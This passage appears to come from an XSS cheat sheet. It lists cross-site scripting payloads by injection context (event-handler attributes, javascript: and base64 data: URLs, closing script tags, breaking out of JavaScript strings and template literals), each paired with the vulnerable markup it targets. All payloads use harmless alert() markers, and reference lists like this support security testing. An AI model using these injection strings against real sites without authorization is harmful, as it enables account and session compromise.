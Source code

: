   ```html
  ```
- If it's not possible to close HTML tag (because of `>` filtered or encoded), use a new Event Handlers:
  ```html
  "autofocus/onfocus="alert(origin)                     <!--     <input type="text" name="p08" value="xxx">            -->
  ' autofocus onfocus=alert(origin) '
  ..gym.php/"</form><svg/onload=alert(origin)>          <!--     <form action="/gym.php/xxx" method="POST">            -->
  ```
- Special URL schemes
  ```html
  javascript:alert(origin)                                            <!--     https://example.com/upload_profile_pic?url=IMAGE_URL                            -->
  javascript://%250Aalert(origin)//?1                                 <!--     <a href="https://www.google.com/search?q=brutelogic"><div id="k"></div></a>     -->
  javascript:alert(origin).jpg                                        <!--     <a href="xxx"><img src="xxx" style="bord ...                                    -->
  data:text/html,<script>alert(origin)</script>                       <!--     embed small files (JavaScript code) in a URL.                                   -->
  data:text/html;base64,PHNjcmlwdD5hbGVydChvcmlnaW4pPC9zY3JpcHQ+      <!--     bypass XSS filters with base64-encoded                                          -->
  ```

### Javascript Context
- Close `script` tag:
  ```html
  </script><img/src/onerror=alert(origin)>                 <!--     <script>var p11 = 'xxx';</script>                                -->
  </script><svg/onload=alert(origin)>
  </script/x><svg/onload=alert(1)>
  </script><script>alert(1)</script>                       <!--     <script> var searchTerms = 'qwe';                               --> 
  ```
- Break the context:
  ```html
  ';alert(origin);//                                       <!--     <script> var p13 = 'xxx';</script>                              --> 
  '-alert(origin)-'
  ";alert(origin);//                                       <!--     <script> var p14 = "xxx";</script>                              -->
  "-alert(origin)-"
  \'-alert(origin)//                                       <!--     <script> var p15 = 'xxx';</script>                              -->     
  \"-alert(origin)//                                       <!--     <script> var p16 = "xxx";</script>                              -->
  \";alert(origin);//                                      <!--     <script type="text/javascript"> var phone = "123";              -->
  `${alert(origin)};`                                      <!--     <script> var p18 = `xxx`;</script>                              -->
  `-alert(origin)-`                                        <!--     In JS, ` is not a string, and will be executed                  -->
  \`-alert(origin)//
  ${alert(origin)}
  /alert(origin)//\                                        <!--     <script>var p24_1 = 'xxx'; var p24_2 = 'xxx';</script>          -->
  <details open ontoggle=alert(origin)>                    <!--     <script type="text/javascript">var pageName = "test";           -->
  ;alert`1`;//                                             <!--     ( and ) are filtered                                            -->
  ```
- Sometimes you don't need to break somthing. (We can't use HTML-encode, but tab character)
  ```html
  javascript:alert(1)                                      <!--     location.replace("$input")
  ```